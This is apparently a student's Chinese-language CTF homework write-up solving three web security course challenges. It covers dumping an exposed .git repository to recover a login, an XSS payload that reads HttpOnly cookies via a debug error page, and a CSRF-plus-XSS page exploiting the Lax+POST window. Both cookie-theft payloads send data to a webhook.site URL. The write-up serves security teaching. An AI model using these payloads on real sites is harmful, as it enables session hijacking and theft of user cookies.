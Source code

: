 ```yaml
---
tags: 2020 程式安全
---
```

# HW4
## The Stupid Content Tracker
### 題目分析
* 題目給了一個網址`https://edu-ctf.csie.org:44302/.git/`
* 但是點進去是403 forbidden看不到任何東西
### 漏洞
* 從網站的url可以看到是一個.git的目錄所以存在git的洩漏
* 可以使用githack等工具把把整個repository給dump下來
### Exploit
* 利用githack把整個repositoy給dump下來之後會看到有一個資料夾和index.html  
![](https://i.imgur.com/8O58ViY.png)
* 進去看admin_portal_non_production的資料夾裡面有一個index.php內容是
```php=
<?php
    echo getenv("FLAG");
?>
```
* 所以知道如果能夠進入https://edu-ctf.csie.org:44302/admin_portal_non_production/index.php就能拿到flag
* 嘗試進入後會發現需要帳號密碼  
![](https://i.imgur.com/BXQaUrC.png)
* 再回去看剛剛dump下來的東西用git log查看所有使用git的紀錄
* 可以發現有一次commit有新增一個叫做password的檔案  
![](https://i.imgur.com/YSl24GA.png)
* 接著用git diff 2577a去看那次的commit和當前的版本有甚麼差別
* 可以看到和2577a那次的版本比少掉的部分是紅字的部分
![](https://i.imgur.com/Bp3qk6M.png)
* 移除掉的了內容是`thewebmaster:ols2Xrmdja7XaaMP`所以可以知道應該就是登入的帳號和密碼
* 嘗試登入後就成功拿到flag了  
![](https://i.imgur.com/ffpiscO.png)
>FLAG{_man_git_THe_StUPid_CONtEnt_TrAcKEr......}

## Zero Note Revenge
### 題目分析
* 題目是一個留言的地方可以在上面留言點擊就能夠看到之前留的內容
* 也可以把內容傳給admin叫admin去看
### 漏洞
* 沒有對輸入的內容作過濾所以存在XSS的漏洞
* 錯誤訊息沒有隱藏起來而是完整的顯示出來導致訊息的洩漏
### Exploit
* 因為有XSS的漏洞所以就可以構造payload來執行javascript來偷到使用者的cookie
* 因為這題目標的cookie是http only的所以不能直接使用javascript的document.cookie來獲取cookie
* 但是因為錯誤訊息沒有隱藏起來上面會有發出request時帶上的所有內容
* 嘗試訪問一個不存在的note會發現他錯誤訊息裡面有cookie即使是http only的cookie也會出現在上面  
![](https://i.imgur.com/j1Qp7lF.png)
* 所以就可以構造一個payload讓點擊note的人去訪問不存在的頁面因為頁面不存在所以response裡面的內容是發起request時的header的內容
* 最後再把response的內容回傳給我們就能拿到http only的cookie了
```javascript=
<script>
function httpGet(theUrl)
{
    var xmlHttp = new XMLHttpRequest();
    xmlHttp.open( "GET", theUrl, false );
    xmlHttp.send( null );
    return xmlHttp.responseText;
}
a = httpGet('https://edu-ctf.csie.org:44301/note/12345')
fetch('https://webhook.site/5c0a633f-8078-42f6-ba67-3fabb65a4597?' + btoa(a))
</script>
```
>FLAG{Oh_I_f0rg0t_To_disAble_The_deBug_PagE}
##  Zero Meme
### 題目分析
* 題目打開是一張圖片可以給他新的網址去更新那張圖片
* 也可以把網址傳給admin讓admin去點擊那個網址
### 漏洞
* 存在xss的漏洞
* 因為Lax+POST的關係有兩分鐘的時間可以做到CSFR
### Exploit
* 在更新圖片的地方因為沒有對輸入的東西做檢查所以可以把img標籤閉合掉之後塞上\<script\>...\</script\>就能夠成功構造出一個script標籤去執行javascript的code
```=
https://i.imgflip.com/4mc8aj.jpg"><script>alert(1)</script>
```
* 這樣就能夠成功把img閉合掉然後產生一個script的標籤並執行alert(1)
![](https://i.imgur.com/wK7Rt7G.png)
* 因為cookie預設samesite是Lax所以在訪問不同origin網站時cookie不會被帶上
* 原本samesite對cross-site request送cookie的行為將預設被關閉但是因為Lax+POST的關係所以如果剛登入並且是用post的方式發request有兩分鐘的時間cookie可以對外發出的
* 因此就可以利用這兩分鐘的時間來做CSFR來偷到cookie而題目設計是admin每次看我們發送過去的網址都是剛登入的狀態就符合Lax+POST的規則
* 構造一個網頁讓使用者連上之後就對`https://zero-meme.edu-ctf.bookgin.tw:44303/me`送post然後內容是把img閉合掉之後用構造script標籤來執行js的code來把cookie傳送出來
* 這樣當admin點擊這個構造的惡意的網頁就會對`/me`發起post之後就會把cookie往外傳給我們
```htmlembedded=
<!DOCTYPE html>
<html>
<head>
    <meta charset="utf-8" />
</head>
<body>
    <form id="csfr" method="POST" action="https://zero-meme.edu-ctf.bookgin.tw:44303/me">
        <input type="text" name="intro" value=aaa>
    </form>
    
    <script>
        const a = "https://i.imgflip.com/4mc8aj.jpg\"\>\<script\>fetch('https://webhook.site/5c0a633f-8078-42f6-ba67-3fabb65a4597?cookie=' + btoa(document.cookie))\<\/script\>";
        document.getElementById('csfr')[0].value = a;
        document.getElementById("csfr").submit();
    </script>

</body>
</html>
```
>FLAG{Will_samesite_cookies_by_default_puts_the_final_nail_in_the_CSRF_coffin?}